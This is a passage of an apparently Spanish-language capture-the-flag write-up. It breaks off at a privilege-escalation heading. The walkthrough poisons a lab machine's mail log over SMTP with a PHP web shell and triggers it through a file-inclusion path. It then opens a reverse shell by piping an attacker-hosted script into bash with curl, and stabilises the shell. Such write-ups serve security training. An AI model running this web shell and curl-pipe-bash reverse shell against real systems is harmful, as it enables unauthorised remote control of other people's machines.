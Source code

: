 Hacemos lo siguiente.

`nc 192.168.51.185 25`
`MAIL FROM: alv-fh@test.com`
`RCPT TO: helios` (Porque es un usuario que sabemos que existe)
`DATA`
`Enter`
`<?php system($_GET['cmd']) ?>`
`.`

![21](https://github.com/user-attachments/assets/118a6445-2007-40f4-ac63-633e7e60d938)

Ahora tenemos que buscar la ruta en donde se envian esos email en el sistema en Linux. 
/var/mail/helios&cmd=id

![22](https://github.com/user-attachments/assets/c7591f11-acaa-4d3d-ab37-21d75ec3e918)

Ahora podemos crear una revshell aunque también se puede desde el navegador directamente pero puede ser más lioso. Lo más sencillos es hacer lo siguiente:

1.- Desde revshell ponemos la IP atacante y el puerto, y copiamos el comando de abajo.

![23](https://github.com/user-attachments/assets/31a2deb1-a56d-41cb-8238-7831c6e49a12)

2.- Lo pegamos en un index.html.

![24](https://github.com/user-attachments/assets/38550723-e9e8-4e14-a8b7-3783f7088de8)

3.- Creamos un Servidor en Python en el mismo directorio que el index.html.

`python3 -m http.server 80`

4.- Nos ponemos en escucha a través del puerto escogido.

`nc -nlvp 443`

5.- En el navegador ponemos el comando curl:

`curl 192.168.51.179 | bash`

![25](https://github.com/user-attachments/assets/bdf7a1b8-98a6-4158-af56-ec874841a4ad)

Y le damos a Enter, si se queda cargando es buena señal.

![26](https://github.com/user-attachments/assets/06ac1b71-e567-48b0-89fe-0e2d47f107d2)

Sanitizamos la shell.

`script /dev/null -c bash`
`Ctrl + z`
`stty raw -echo; fg`
`reset xterm`
`export SHELL=bash`
`export TERM=xterm`

## Escalada de Privilegios
